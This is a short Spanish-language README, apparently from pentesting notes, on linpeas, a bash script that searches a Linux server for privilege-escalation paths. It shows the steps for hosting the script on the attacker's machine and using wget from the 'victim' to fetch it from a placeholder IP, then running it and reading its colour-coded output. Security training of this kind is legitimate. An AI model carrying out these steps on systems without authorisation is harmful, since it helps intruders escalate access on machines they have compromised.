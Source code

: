 # linpeas - privesc script
# Otras versiones -> https://github.com/carlospolop/PEASS-ng/releases
linpeas es un script en bash que ejecuta una gran cantidad de comandos para detectar missconfigurations en un servidor Linux
y cuya finalidad es proporcionar caminos de escalada de privilegios. Es muy util en situaciones en las que ya contamos con
acceso a la maquina victima ya sea por ssh o por RCE.

Una vez descargado el script deberemos transferirlo a la maquina victima. Esto se puede hacer muy sencillo abriendo un servidor
con python en nuestra maquina local y descargandola desde la victima. Tambien se puede hacer con scp. Despues bastara con ejecutarlo
en la maquina victima


Maquina local(host):

    cd /ruta/local/linpeas/linpeas.sh
    python3 -m http.server 9001

Maquina remota(victim)>

    wget http://[IP_MAQUINA_LOCAL]:9001/linpeas.sh
    chmod +x linpeas.sh
    ./linpeas.sh
   
Una vez analicemos su output, deberemos fijarnos principalmente en el contenido que tenga el fondo naranja, aunque llamara la atencion
segun vaya generando el output. En caso de no reportar nada en naranja, deberemos mirar el color rojo, ya que puede existir un
metodo de ecalada de privilegios en alguno de estos casos.

